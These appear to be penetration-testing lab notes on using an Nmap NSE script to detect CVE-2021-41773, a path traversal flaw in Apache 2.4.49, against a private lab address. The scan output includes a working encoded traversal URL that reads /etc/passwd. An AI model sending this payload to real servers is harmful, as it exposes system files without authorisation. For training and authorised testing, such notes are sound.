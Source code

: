 # Working with NSE Scripts

Searching for an NSE script for a specific CVE in Google
>``` shell
>Google Search: CVE-2021-41773 nse
>```

Copy the NSE Script and update the script.db database
>``` shell
>kali@kali:~$ sudo cp /home/kali/Downloads/http-vuln-cve-2021-41773.nse /usr/share/nmap/scripts/http-vuln-cve2021-41773.nse
>
>kali@kali:~$ sudo nmap --script-updatedb
>
># ========== Expected Result ==========
>[sudo] password for kali: 
>Starting Nmap 7.92 ( https://nmap.org )
>NSE: Updating rule database.
>NSE: Script Database updated successfully.
>Nmap done: 0 IP addresses (0 hosts up) scanned in 0.54 seconds
># =====================================
>```

CVE-2021-41773 NSE Script
>``` shell
>kali@kali:~$ sudo nmap -sV -p 443 --script "http-vuln-cve2021-41773" 192.168.50.124
>
># ========== Expected Result ==========
>Starting Nmap 7.92 ( https://nmap.org )
>Host is up (0.00069s latency).
>
>PORT    STATE SERVICE VERSION
>443/tcp open  http    Apache httpd 2.4.49 ((Unix))
>| http-vuln-cve2021-41773:
>|   VULNERABLE:
>|   Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49
>|     State: VULNERABLE
>|               A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not >protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier >versions.
>|           
>|     Disclosure date: 2021-10-05
>|     Check results:
>|       
>|         Verify arbitrary file read: https://192.168.50.124:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
>...
>Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
># =====================================
>```

Lab 1 - Retrieve the content of /etc/passwd for the flag
>``` shell
>
>```
